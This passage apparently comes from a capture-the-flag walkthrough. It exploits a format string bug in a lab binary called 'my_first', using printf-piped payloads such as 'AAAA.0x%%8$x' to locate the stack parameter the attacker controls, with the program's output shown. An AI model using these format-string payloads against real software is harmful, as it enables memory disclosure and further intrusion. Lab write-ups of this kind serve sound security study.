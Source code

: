 Cool, so we have sampled adding 1 to 1 ;p Now we can get to exploiting the format string. The first step we have is to determine which parameter on the stack we have control of. We determine this by providing it with a string of 4 A's, and then incrementing the format string arguments by 1 until we can find the 4 A's. In my case, I will be formatting them as hex with `%x`, so I am searching for `41414141`. The format string will therefore start as `AAAA.0x%s`. Note that in the below example we are using 2 x percentages (2 x '%') as it needs to be escaped in the shell:

```bash
mike@pegasus:~$ printf '1\n1\nAAAA.0x%%x\n4\n' | ./my_first 
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: AAAA.0xbff5321c

Selection: 
Goodbye!
```

And we have the output of `AAAA.0xbff5321c`. Yay :)
Continuously incrementing this will eventually get you to argument 8, where you will find the clean string of hex A's:

```bash
mike@pegasus:~$ printf '1\n1\nAAAA.0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x0x%%x\n4\n' | ./my_first 
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: AAAA.0xbfbd145c0xa0xb75b41600xb7726ac00xb7752ff40xb77539180xbfbd14600x41414141

Selection: 
Goodbye!
mike@pegasus:~$
```

So, using direct parameter access in the format string, we can reference parameter 8 directly:

```bash
mike@pegasus:~$ printf '1\n1\nAAAA.0x%%8$x\n4\n' | ./my_first 
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: AAAA.0x41414141

Selection: 
Goodbye!
mike@pegasus:~$
```

